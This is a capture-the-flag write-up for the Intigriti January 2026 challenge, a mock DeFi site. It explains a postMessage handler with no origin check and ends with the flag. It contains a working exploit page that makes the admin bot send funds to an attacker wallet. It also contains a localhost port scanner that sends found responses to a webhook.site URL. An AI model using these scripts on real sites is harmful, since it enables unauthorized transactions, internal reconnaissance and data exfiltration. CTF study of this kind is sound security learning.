| [Intigriti](https://x.com/INTIGRITI) | **Category** |
| --- | --- |
| [Intigriti January Challenge (2026)](https://challenge-0126.intigriti.io/) | PostMessage, XS Leak, CORS, XSS |

Our target today !!!



## 📄 PRE-ENGAGEMENT

- [x]  Target  [CRYPTIGRITI - Secure DeFi Platform](https://challenge-0126.intigriti.io/home.html)

## ⚙️ SCANNING & ENUMERATION

### Network .

nmap? no need

### Web



- [ ]  **path discovery Leak**
    - [x]  **Javascript Bookmarklet** script from `k3vin`
    
    ```php
    javascript:(function(){var scripts=document.getElementsByTagName("script"),regex=/(?%3C=(\%22|\%27|\`))\/[a-zA-Z0-9_?&=\/\-\#\.]*(?=(\%22|\'|\%60))/g;const%20results=new%20Set;for(var%20i=0;i%3Cscripts.length;i++){var%20t=scripts[i].src;%22%22!=t&&fetch(t).then(function(t){return%20t.text()}).then(function(t){var%20e=t.matchAll(regex);for(let%20r%20of%20e)results.add(r[0])}).catch(function(t){console.log(%22An%20error%20occurred:%20%22,t)})}var%20pageContent=document.documentElement.outerHTML,matches=pageContent.matchAll(regex);for(const%20match%20of%20matches)results.add(match[0]);function%20writeResults(){results.forEach(function(t){document.write(t+%22%3Cbr%3E%22)})}setTimeout(writeResults,3e3);})();
    ```
    
    | **Step** | **Action** | **Purpose** |
    | --- | --- | --- |
    | **Identify** | Find all `<script>` tags. | Locates where logic is stored. |
    | **Fetch** | Download external JS files. | Accesses "hidden" code not on the main page. |
    | **Match** | Apply Regex pattern. | Filters out everything except potential URL paths. |
    | **Clean** | Store in a `Set`. | Ensures the list is concise and unique. |
    | **Output** | `document.write` | Displays the final "map" of the site's structure. |
    
    How to set up ?
    
    Just simple create new bookmark on web: 
    
    on `firefox` 
    
    - right mouse and click  add Bookmark
        
        
        
    - copy the script in to URL and Rename the bookmark
        
        
        
    - To use the script navigate to web and click on it
        
        
        

---

## 🧠 VULNERABILITY ANALYSIS

Our mission here is to create an XSS with a suspicious link and send it to the admin bot, and then it goes to check our flag.



### Web

AS what Category of the challenge showed us we need to perform some web vuln to destroy this chall ( PostMessage, XS Leak, CORS, XSS )

Because this blog is for learning so I’m going to gather some information about those vulns or technique to know how it run behind !!!

Website tech



[Set-Cookie header - HTTP | MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie)



Well i referenced some information about the **authentication** which being implemented in to this web from [Intigriti](https://www.intigriti.com/researchers/blog/hacking-tools/january-ctf-challenge-exploiting-postmessage-xss)’s write up for this chall

- **`HttpOnly: true`**

 [HttpOnly | OWASP Foundation](https://owasp.org/www-community/HttpOnly)

[Mitigating Cross-site Scripting With HTTP-only Cookies | Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions//ms533046(v=vs.85)?redirectedfrom=MSDN)
### What is ``HttpOnly: true`
- The **`HttpOnly: true`** setting meant JavaScript couldn't access the cookie directly, which is a common security practice to limit client-side attacks, such as XSS.
    
    With this mechanism any payload trying to steal cookie through `document.cookie` will not work !!!
    
    
    

well but  *It only affects access to cookies, so other XSS impacts such as page defacement or CSRF token theft may still be possible. - Owasp*

- **`SameSite: Lax`**

[draft-ietf-httpbis-cookie-same-site-00](https://datatracker.ietf.org/doc/html/draft-ietf-httpbis-cookie-same-site-00#section-2.1)

- *The **`SameSite: Lax`** policy would prevent the cookie from being sent in most cross-site requests, though it would still be sent for top-level navigations. We took note of these properties, as they could potentially become more important later on as we're tasked with capturing the flag using a client-side vulnerability.*

### What is `SameSite : Lax`

[`Lax`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie#lax)Send the cookie only for requests originating from the same [site](https://developer.mozilla.org/en-US/docs/Glossary/Site) that set the cookie, and for cross-site requests that meet both of the following criteria:
• The request is a top-level navigation: this essentially means that the request causes the URL shown in the browser's address bar to change.
    ◦ This would exclude, for example, requests made using the [`fetch()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/fetch) API, or requests for subresources from [``](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/img) or [`<script>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/script) elements, or navigations inside [`<iframe>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/iframe) elements.
    ◦ It would include requests made when the user clicks a link in the top-level browsing context from one site to another, or an assignment to [`document.location`](https://developer.mozilla.org/en-US/docs/Web/API/Document/location), or a [`<form>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/form) submission.
• The request uses a [safe](https://developer.mozilla.org/en-US/docs/Glossary/Safe/HTTP) method: in particular, this excludes [`POST`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Methods/POST), [`PUT`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Methods/PUT), and [`DELETE`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Methods/DELETE).

I asked myself question `What do those mean?? I mean, how does it work ?`

Well… with all explanation above, i guess we all know that it is the reason why stealing the admin bot’s cookie is impossible in this CTF challenge, so we need to take a diff approach !!!

### Pivoting

How about we create an malicious script that trigg admin bot to buy crypto for us ??



View page source at `view-source:https://challenge-0126.intigriti.io/checkout.html`

### `Checkout.html`

```php
window.addEventListener('message', async function(event) {            
            if (event.data.type === 'submitTransaction') {
                const transactionData = event.data.transaction;
                
                const userWallet = userWallets.find(w => w.currency === transactionData.currency);
                
                if (!userWallet) {
                    alert('Wallet not found for currency: ' + transactionData.currency);
                    return;
                }

                try {
                    const response = await fetch('/api/transaction', {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/json'
                        },
                        credentials: 'include',
                        body: JSON.stringify({
                            toAddress: transactionData.toAddress,
                            currency: transactionData.currency,
                            amount: transactionData.amount
                        })
                    });

                    const result = await response.json();

                    if (response.ok) {
                        alert('Transaction successful! TX Hash: ' + result.txHash);
                        window.location.href = '/dashboard.html';
                    } else {
                        alert('Transaction failed: ' + result.error);
                    }
                } catch (error) {
                    console.error('Transaction error:', error);
                    alert('Transaction error: ' + error.message);
                }
            }
        });
```

Big problem is here when using `window.addEventListener('message', ...)` *The message event is fired on a [Window](https://developer.mozilla.org/en-US/docs/Web/API/Window) object when the window receives a message, for example from a call to [Window.postMessage()](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) from another browsing context. -* [Window: message event - Web APIs | MDN](https://developer.mozilla.org/en-US/docs/Web/API/Window/message_event)

The browser allows any window or iframe to send data ( message ) to this websia via the `postMessage()` function

### `postMessage()`

*Normally, scripts on different pages are allowed to access each other if and only if the pages they originate from share the same [origin](https://developer.mozilla.org/en-US/docs/Web/API/Location/origin) (also known as the "[same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Defenses/Same-origin_policy)"). `window.postMessage()` provides a controlled mechanism to securely circumvent this restriction (if used properly).*

If you read this document [Window: postMessage() method - Web APIs | MDN](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
At the end of it there is a best practice code of using this :

```php
window.addEventListener("message", (event) => {
  if (event.origin !== "https://trusted-site.com") return;

  // …
});
```

Look at a part of `<script>` in Checkout.html again. There is NO any check for event.origin !!!

Mean that any website (including our malicious website) can embed the page containing this code in an <iframe> tag, then command it to perform a transaction!

NOw i try with this script and It doesnt work !

```php
<script>
    const ATTACKER_WALLET = '10644275e20c7cf92f1c1469bbbc342147';
    const AMOUNT = 1337;

    // Open checkout page
    const target = window.open(
      'https://challenge-0126.intigriti.io/checkout.html?currency=BTC&price=45000',
      '_blank'
    );

    // Leave enough time for background requests to finish first, then exploit
    setTimeout(() => {
      target.postMessage({
        type: 'submitTransaction',
        transaction: {
          toAddress: ATTACKER_WALLET,
          currency: '1337COIN',
          amount: AMOUNT
        }
      }, '*');
    }, 10000);
</script>
```

Damn 

### Check out admin bot

 `*The admin bot runs in a sandboxed environment.*`

What is it mean ?

Otherwise if it isn’t work on https://challenge-0126.intigriti.io/ it should be in server [localhost](http://localhost) !

So the bot running in localhost… but which port?

This script from [Writeup Intigriti 0126: From CORS Scan to postMessage Takeover - HackMD](https://hackmd.io/@frevadiscor/Sy5jO_UL-e) can help us scan ports. Remember to change webhook link to your

`ScanPort.html`

```php
<!DOCTYPE html>
<html>
<head>
    <title>Scanner</title>
</head>
<body>
    <script>
        const WEBHOOK_URL = "https://webhook.site/2c07db91-6c98-4489-b4a0-d8ac31016276";

        navigator.sendBeacon(WEBHOOK_URL, JSON.stringify({ status: "started", userAgent: navigator.userAgent }));

        async function scan() {
            const startPort = 8000;
            const endPort = 9000;
            const batchSize = 200;

            for (let i = startPort; i <= endPort; i += batchSize) {
                const tasks = [];
                for (let port = i; port < i + batchSize && port <= endPort; port++) {
                    tasks.push(checkPort(port));
                }
                
                await Promise.all(tasks);
            }
            
            navigator.sendBeacon(WEBHOOK_URL, JSON.stringify({ status: "finished" }));
        }

        async function checkPort(port) {
            const controller = new AbortController();
            const timeout = setTimeout(() => controller.abort(), 1500);

            try {
                const response = await fetch(`http://localhost:${port}`, {
                    mode: 'cors',
                    credentials: 'include',
                    signal: controller.signal
                });

                const data = await response.text();

                navigator.sendBeacon(WEBHOOK_URL, JSON.stringify({
                    found: true,
                    port: port,
                    content: data.substring(0, 500)
                }));

            } catch (err) {

            } finally {
                clearTimeout(timeout);
            }
        }
        scan();
    </script>
</body>
</html>

```

## Host your local website to internet

First host your http server

```php
python3 -m http.server 8000
```

then open new terminal one and using following command

```php
ssh -R 80:localhost:8000 nokey@localhost.run
```

All should be in the same directory
s




Admin bot is running on [localhost:8080](http://localhost:8080) !!!

Nice !!! now fix our script once again !

```php
<script>
    const ATTACKER_WALLET = '189804e3693bdfda6d5b5fc3c7b0cbf0a5';
    const AMOUNT = 11113337;

    // Open checkout page
    const target = window.open(
      'http://localhost:8080/checkout.html?currency=BTC&price=45000',
      '_blank'
    );

    // Leave enough time for background requests to finish first, then exploit
    setTimeout(() => {
      target.postMessage({
        type: 'submitTransaction',
        transaction: {
          toAddress: ATTACKER_WALLET,
          currency: '1337COIN',
          amount: AMOUNT
        }
      }, '*');
    }, 10000);
</script>
```

---


FLAG: `INTIGRITI{019bd594-b91d-713c-b7b9-7c8aa5def220}`

---

## Referencing write-up:

[Intigriti 0126 CTF Challenge: Exploiting insecure postMessage handlers](https://www.intigriti.com/researchers/blog/hacking-tools/january-ctf-challenge-exploiting-postmessage-xss) 

[Writeup Intigriti 0126: From CORS Scan to postMessage Takeover - HackMD](https://hackmd.io/@frevadiscor/Sy5jO_UL-e)

[Intigriti 0126: How I Hacked the DeFi Challenge (and Fought the Popup Boss) | d3dn0v4](https://d3dn0v4.me/posts/Intigriti-Challenge-0126-Writeup/#xs-leak-authentication-oracle)